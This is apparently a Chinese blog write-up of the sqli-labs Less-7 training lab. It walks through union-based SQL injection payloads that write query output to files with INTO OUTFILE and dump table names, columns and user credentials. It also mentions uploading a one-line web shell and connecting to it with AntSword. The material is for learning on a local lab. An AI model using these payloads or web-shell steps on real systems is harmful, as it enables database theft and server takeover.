sql-labs less-7
sql注入之outfile
发现之前学sql的时候，这一关觉得太麻烦就没怎么练所以今天查漏补缺一下
第一种方法：标准SQL注入流程


首先判断注入点
1 | payload：?id=1' |
发现这次连报错信息都不显示了，慢慢试吧

1 | payload：?id=1' or 1=1--+ |

我们需要知道写入文件的绝对路径从之前关卡得到@@datadir
1 | paylaod：?id=-1' union select 1,2,@@datadir--+ |
直接去第一关得到路径

1 | payload：?id=1')) order by 4--+ |
爆破字段数，为3（因为3不报错，4报错）

1 | payload：?id=-1')) union select 1,2,3 into outfile "C:\\phpstudy\\WWW\\sqli-labs-master\\Less-7\\1.txt" --+ |

如果如上图显示secure_file_priv 为NULL证明此时没有导出文件的权限
我们在MYSQL文件下的my.ini中加入一句话secure_file_priv="/"意思为可以将文件导入到任意目录此时重启mysql服务
我们再次使用show variables like "%security%"命令查看这时候只要不是NULL就可以了

1 | payload：?id=-1')) union select 1,2,3 into outfile "C:\\phpstudy\\WWW\\sqli-labs-master\\Less-7\\1.txt" --+ |

后面就是常规的注入流程了，下面走一下流程（记住一步都要把上一步的文件删了，或是换个文件名）
1 | payload：?id=-1')) union select 1,2,database() into outfile "C:\\phpstudy\\WWW\\sqli-labs-master\\Less-7\\1.txt" --+ |

1 | payload：?id=-1')) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security" into outfile "C:\\phpstudy\\WWW\\sqli-labs-master\\Less-7\\2.txt" --+ |

1 | payload：?id=-1')) union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users" into outfile "C:\\phpstudy\\WWW\\sqli-labs-master\\Less-7\\3.txt" --+ |

1 | payload：?id=-1')) union select 1,2,group_concat(username,0x7e,password) from users into outfile "C:\\phpstudy\\WWW\\sqli-labs-master\\Less-7\\4.txt" --+ |

第二种方法：结合一句话木马
直接上传一句话木马，使用菜刀或者蚁剑进行连接，如图

上传成功

使用蚁剑连接

本博客所有文章除特别声明外，均采用 CC BY-NC-SA 4.0 许可协议。转载请注明来自 Don_Joshua's Blog！